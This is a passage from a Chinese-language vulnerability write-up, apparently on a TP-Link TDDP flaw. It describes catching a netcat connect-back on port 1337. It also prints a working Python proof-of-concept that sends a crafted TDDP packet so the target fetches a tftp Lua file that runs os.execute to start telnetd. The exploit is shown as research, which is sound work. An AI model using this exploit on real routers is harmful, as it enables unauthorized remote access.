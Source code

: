 然后在宿主机中监听1337端口。

![](../../.gitbook/assets/image%20%28102%29.png)

最后执行poc，就可以看到nc连回的结果了，我后面使用pwntools重写了之前的poc，因此这里就不贴出poc了，在后面再给出链接。

![](../../.gitbook/assets/image%20%28101%29.png)

```python
#!/usr/bin/python3

# Copyright 2019 Google LLC.
# SPDX-License-Identifier: Apache-2.0

# Create a file in your tftp directory with the following contents:
#
#function config_test(config)
#  os.execute("telnetd -l /bin/login.sh")
#end
#
# Execute script as poc.py remoteaddr filename

import sys
import binascii
import socket

port_send = 1040
port_receive = 61000

tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

sock_receive = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock_receive.bind(('', port_receive))

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s;arbitrary" % sys.argv[2]
packet = packet + argument.encode()
sock_send.sendto(packet, (sys.argv[1], port_send))
```
